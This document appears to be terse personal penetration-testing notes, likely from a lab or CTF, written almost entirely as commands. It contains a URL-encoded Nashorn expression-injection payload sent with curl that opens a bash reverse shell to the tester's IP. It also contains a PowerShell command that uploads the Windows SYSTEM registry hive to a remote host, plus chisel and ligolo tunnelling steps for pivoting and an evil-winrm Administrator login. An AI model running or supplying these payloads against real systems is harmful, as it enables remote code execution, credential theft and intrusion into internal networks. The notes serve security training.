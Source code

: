 start the listen

```
nc -nvlp 1234
```

Connect to the host

```
curl http://{machineip}:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/{mylocalip}/1234%200%3E%261%27%29.start%28%29%22%29%7D/
```

Now you are connected to host , so send 

```
cd /tmp
chisel
chmod +x
./chisel client {kali ip}:8000 R:9999:socks
before abovve process run this
chisel server -p 8000 --reverse

its all done now tho interect with the internel ip use this in every step

proxychains -q ssh user@ip
```


```
Powershell.exe -c "(New-Object System.Net.WebClient).UploadFile(' [http://10.10.197.147:82/](http://10.10.197.147:82/)', 'C:\windows.old\Windows\System32\SYSTEM')"
```

## ligolo in local machine

```
ip tuntap add user kali mode tun ligolo
ip link set ligolo up
./proxy --selfcert
....this step in machine...
.\agent.exe --connect 192.168.45.244:11601 --ignore-cert
session
start
```

after starting ligolo in local kali

```
sudo ip route add 10.10.110.0/24 dev ligolo

evil-winrm -i 10.10.69.154 -u Administrator -p password
```

add user in ligolo for tunneling
```
listener_add --addr 0.0.0.0:82 --to 127.0.0.1:81

listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:1234

listener_list
```